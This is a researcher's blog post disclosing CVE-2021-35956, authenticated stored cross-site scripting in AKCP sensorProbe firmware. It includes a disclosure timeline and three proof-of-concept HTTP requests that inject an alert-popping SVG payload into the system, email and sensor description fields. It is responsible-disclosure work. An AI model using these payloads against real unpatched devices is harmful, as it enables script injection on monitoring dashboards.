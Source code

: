 ```yaml
---
title: CVE-2021-35956 AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)
description: Getting my first CVE vulnerability assigned 🎉
featured: true
report: 
cve: CVE-2021-35956
link: /2021/06/28/CVE-2021-35956.html
report: /2021/06/28/CVE-2021-35956.html
exploit-db: https://www.exploit-db.com/exploits/50080
vendor-advisory: https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Getting my first CVE vulnerability assigned 🎉
card: card-2
postid: 1
redirect_from:
- "/CVE-2021-35956"
navheader: posts
id: post6
---
```


This week, I was incredibly fortunate to finally get my first CVE vulnerability assigned by Mitre 🎉 ! <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-35956" class="highlighted">CVE-2021-35956</a> details multiple stored cross-site scripting (XSS) vulnerabilities I discovered in the AKCP sensorProbe embedded webserver. In this post, I'll describe the technical details of the vulnerability, the vendor's response, and remediation options. Overall AKCP was an exceptional partner in the responsible disclosure process, remediating the issue quickly and providing me with a test unit to verify the updated firmware. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)
+  [About the Vendor]({{page.url}}#-about-the-vendor)
+  [Vulnerability Details]({{page.url}}#-cve-2021-35956-vulnerability-details)
+  [Firmware Upgrade]({{page.url}}#-firmware-upgrade)

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at AKCP, could not do so, and contacted the sales team at sales@akcp.com</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response from management, and release my responsible disclosure report</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me a copy of beta test firmware for the fix</div>
              <div class="tl-date text-muted mt-1">15 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me an ip address for a test unit to verify the fix, I confirm the vulnerability has been fixed</div>
              <div class="tl-date text-muted mt-1">16 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP releases updated <a href="http://www.akcp.in.th/downloads/Firmwares/SP480-20210624.zip" class="highlighted">firmware</a> on their website and updates their <a href="https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/" class="highlighted">changelog</a> mentioning the XSS vulnerability</div>
              <div class="tl-date text-muted mt-1">25 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I submit a request for CVE through Mitre's <a href="https://cveform.mitre.org/" class="highlighted">submission form</a></div>
              <div class="tl-date text-muted mt-1">28 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Mitre reserves CVE-2021-35956 for the vulnerability </div>
              <div class="tl-date text-muted mt-1">29 June 2021</div>
          </div>
      </div>
    </div>

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*



####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" 
        src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png">
    </div>
</div>  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png">
    </div>
</div>  



#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png">
    </div>
</div>  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_3.png">
    </div>
</div>  




#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png">
    </div>
</div>  



